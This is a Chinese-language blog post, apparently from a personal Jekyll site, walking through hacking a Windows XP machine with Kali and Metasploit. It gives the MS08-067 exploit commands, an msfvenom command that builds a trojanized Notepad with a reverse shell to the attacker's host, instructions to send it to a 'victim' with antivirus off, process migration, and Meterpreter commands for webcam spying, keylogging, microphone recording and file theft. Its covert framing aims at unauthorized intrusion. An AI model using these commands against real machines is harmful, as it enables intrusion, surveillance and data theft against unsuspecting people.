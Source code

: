 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/cover.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 目录
- 直接攻击
  - 利用漏洞进行攻击
- 软件攻击
  - 编译软件并发送给受害者
  - 受害者接受并打开软件
  - “注入灵魂”
- 附录
  - Meterpreter命令集

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }}/img/kalihack/01.png)

### 02. 搜索Xp漏洞
我们可以查看漏洞在这个*安全渗透环境*查看windows的漏洞都有啥的。输入:
```msf
search platform: windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
但确保你要攻击的电脑有这个ms08漏洞。如果没有，请试其他。  
![]({{ site.imgbed }}/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
你会发现命令的提示符旁边多了`exploit(windows/smb/ms08_067-netapi)`，表示使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![]({{ site.imgbed }}/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到命令的末尾有个`bind_tcp`。  
`bind tcp`可说是隐秘的会话。`reverse_tcp`是指通过软件发起的对话。我等会儿会讲软件传播。  
输入。
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，攻击Xp主机要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑进入cmd输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址。RHOST可说是全写Remote Host。

### 06.开始攻击！
做完这些后，你就可以开始了！输入！
```msf
exploit
```
![]({{ site.imgbed }}/img/kalihack/04.png)
![]({{ site.imgbed }}/img/kalihack/05.png)

<br /> <br /> <br />

***

<br />
### 前言
你先弄出一个我们经常用的应用程序，然后把连接会话藏到这些应用里。这就是为什么在那些2008、2009年时说的“不要下载网站上未知来源的东西”。  
但现在我们有了360安全卫士啊，电脑管家啊那些杀毒软件就变得安全多了。对于我这个灰帽黑客兼MC博主来讲，This is a LITTLE problem。  
But anyways，我们关掉那台Xp的杀毒软件就行了鸭［滑稽］。  
好吧我们废话不多说，开始正题。

### 01.编译软件和发送
先在`~/`的位置里放置从电脑上拷贝出来的Notepad.exe  
然后在kali命令行里输入这段命令:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.106.12.175 LPORT=4444 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > ~/NotepadPro.exe
```
我们看到-p指到了reverse_tcp了。-p全写就是payload鸭。  
`LHOST`是指你的Kali电脑的ip地址。  
`LPORT`是指你的Kali电脑的端口。随情况而定。  
`-x`是指源，然后msfvenom根据源进行修改和添加。    
至于后面，是指转成X86（32位系统）的软件exe格式。  
  
你会发现在`~/`的位置下生成了一个`NotepadPro.exe`。  
把它发给在同一个局域网的用户，并指示受害者打开。前提是360要关掉。  
否则..  
![]({{ site.imgbed }}/img/kalihack/06.png)

### 02.设置内容并等待受害者打开文件
```msf
use exploit/multi/handler
//表示使用活动指向的监听器
```
```msf
set LHOST 192.106.12.175
//设置本机ip
```
```msf
set LPORT 4444
//设置本机端口
```
```msf
set payload windows/meterpreter/reverse_tcp
//设置载荷为*比较开放的tcp*
```
```msf
exploit
//开启监听
```
注意，开启监听后你不会立刻进入`meterpreter`命令提示符的shell直到受害者打开所谓的`NotepadPro.exe`应用。  
可受害者打开后察觉没啥意思后会关闭。关闭后，你将无法继续使用`meterpreter`。怎么办呢？我们需要**注入进程**！  

### 03.注入进程
我们看到这里，已经开始做**最坏的打算了**！  
我们进入`meterpreter`提示符后输入
```msf
ps
```
来查看进程，注意一个进程为`explorer`的内容，记下它的`pid号`。
![]({{ site.imgbed }}/img/kalihack/07.png)
![]({{ site.imgbed }}/img/kalihack/08.png)
`explorer`的*pid*是`4560`.  
融进`explorer`！
![]({{ site.imgbed }}/img/kalihack/09.png)

<br /> <br /> <br />

***

<br />

### Meterpreter命令集
- 使用vnc查看桌面
```msf
run vnc
```
- 监视摄像头
```msf
webcam_stream
```
- 监视键盘按下内容
```msf
keyscan_start
keyscan_dump

keyscan_stop
```
- 录制声音
```msf
record -d XX秒
record_mic
```
- 截屏
```msf
screenshot
```
- 进入cmd
```msf
shell
```
- 从目标机器下载东西
```msf
download C:\\path\to\file
```
- 从kali上传内容到目标机器
```msf
upload ~/file C:\\path\up\
```
